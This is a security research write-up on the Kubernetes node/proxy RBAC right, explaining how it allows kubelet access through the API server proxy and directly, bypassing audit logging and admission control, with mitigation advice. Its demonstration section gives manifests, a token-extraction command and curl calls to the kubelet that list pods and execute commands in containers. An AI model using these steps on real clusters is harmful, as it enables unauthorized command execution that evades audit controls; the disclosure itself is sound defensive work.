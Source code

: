 # Node/Proxy in Kubernetes RBAC

Some work done by [Rory McCune](https://twitter.com/raesene) and [Iain Smart](https://twitter.com/smarticu5) on a less well documented area of the Kubernetes/Kubelet API and RBAC rights

## Introduction

The node/proxy right in Kubernetes RBAC allows for users with it to get access to services running on cluster nodes *via* the API server, which can have consequences for security architecture.

Additionally with relation to the kubelet, this RBAC right could allow for effective privilege escalation and bypass of security controls such as Kubernetes audit logging and admission control.

Depending on the cluster's threat model, care should be taken before granting this right, either explicitly or via the use of wildcards (e.g. cluster-admin).

## Using the API server Proxy

Based on the [API server proxy documentation](https://kubernetes.io/docs/concepts/architecture/control-plane-node-communication/#apiserver-to-nodes-pods-and-services) we can see that it's possible to get access to other services running on cluster nodes, where they use HTTP or HTTPS. This feature can also be used to proxy to pods and services, but we're focusing on the node aspect.

This could allow users to access ports which they may not be able to reach directly due to network firewalls.

As an example, by using `kubectl proxy` we can show access to the kube-proxy health port on a cluster control plane node.

This will start a proxy of the API server on localhost, port 8001
```
kubectl proxy
Starting to serve on 127.0.0.1:8001
```

We can then curl to the API server using that and access the kube-proxy API.

```
curl http://127.0.0.1:8001/api/v1/nodes/kubeadm2nodemaster:10256/proxy/healthz
{"lastUpdated": "2022-01-27 12:05:32.176657288 +0000 UTC m=+1737670.978648438","currentTime": "2022-01-27 12:05:32.176657288 +0000 UTC m=+1737670.978648438"}
```

## Using the API server proxy for Kubelet access

In general access via the node proxy is unauthenticated, however when accessing the kubelet service, this access is credentialed. This access can be used to do things that the user may not have rights to do, for example listing all pods on the node. 

This excerpt is truncated for brevity!
```
curl http://127.0.0.1:8001/api/v1/nodes/kubeadm2nodemaster:10250/proxy/pods
{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"kubernetes-dashboard-78c79f97b4-bmhwj",
```

## Node/Proxy rights to the Kubelet API service.

The Kubernetes RBAC permission used here, has effectively dual-purpose. In addition to allowing access via the API server, it also provides direct access to the Kubelet API (the [kubelet documentation](https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet-authentication-authorization/#kubelet-authorization) covers the rights).

In general the kubelet is only accessed by the API server *however* it also supports webhook authentication and in a standard kubeadm cluster this is configured to use the API server as the AuthN/AuthZ service.

What this means is that a user with a valid client certificate or service account token, can authenticate to the kubelet API directly.

If that account has GET and CREATE rights to the proxy sub-resource of the node object, they can effectively execute commands in every pod on that node, directly via the Kublet API *without* hitting the Kubernetes API. the GET right controls read access operations (like pod listing) and the CREATE right controls write access operations (like command execution).

## Security Architecture Considerations

This architecture has a number of consequences from a security standpoint. First up any user with node/proxy rights can access node services with a source IP of the Kubernetes API server, bypassing any firewalls that may restrict access from their client location.

More seriously, any user with node/proxy rights can bypass any security controls put in place at the Kubernetes API server level. This includes audit logging (the kubelet does not support audit logging) and admission control (which is API server only).

## Possible Recommendations

- Ensure that only trusted service accounts and users have node/proxy rights. Note that any user with cluster-admin rights will have this as part of their rights.
- Consideration should be given to firewalling the kubelet port to white-listed addresses only (typically the API server and any other service which uses direct kubelet access (e.g. prometheus)), which could mitigate the direct access, although not the access via the API server
- Additional logging (e.g. CRI, verbose kubelet logs) could be useful to audit this access.


## Demonstrating direct Kubelet access with node/proxy

{%youtube o4iW8FjnG78 %}

Here's a set of manifests that can be used to demonstrate the issue. Create the three manifests in a cluster of your choosing (where you can reach the kubelet port at a network level)

**ServiceAccount**
```yaml=
apiVersion: v1
kind: ServiceAccount
metadata:
  creationTimestamp: "2022-01-07T11:51:27Z"
  name: nodeproxy
  namespace: default
```

**ClusterRole**
```yaml=
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: nodeproxy
rules:
- apiGroups:
  - ""
  resources:
  - nodes
  - nodes/proxy
  verbs:
  - get
  - create
```

**ClusterRoleBinding**
```yaml=
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: nodeproxybinding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: nodeproxy
subjects:
- kind: ServiceAccount
  name: nodeproxy
  namespace: default
```

Then get the service account token and decode it (change the secret name below to match what got created in your cluster)

```shell=
kubectl get secrets nodeproxy-token-8hg5r -o jsonpath={.data.token} | base64 -d
```

Then you can use curl with that token to get the pod listing (add the token where it says TOKEN below)

```shell=
curl -k -H "Authorization: Bearer TOKEN" https://192.168.41.77:10250/pods
```

and if you want to you can execute commands in the containers with the general form below replace TOKEN with your secret value, NAMESPACE is the namespace of the pod, POD is the pod name and CONTAINER is the container name


```shell=
curl -k -H "Authorization: Bearer TOKEN" -XPOST https://192.168.41.77:10250/run/NAMESPACE/POD/CONTAINER -d "cmd=whoami"
```

## Related Issues

There's another, related, issue with the pod proxy, that [Kinvolk found in 2019](https://kinvolk.io/blog/2019/02/abusing-kubernetes-api-server-proxying/). This essentially showed that you could use the API server proxy to send traffic to arbitrary IP address via the API server, by repeatedly changing a pod's IP addres. Testing this shows it still works today.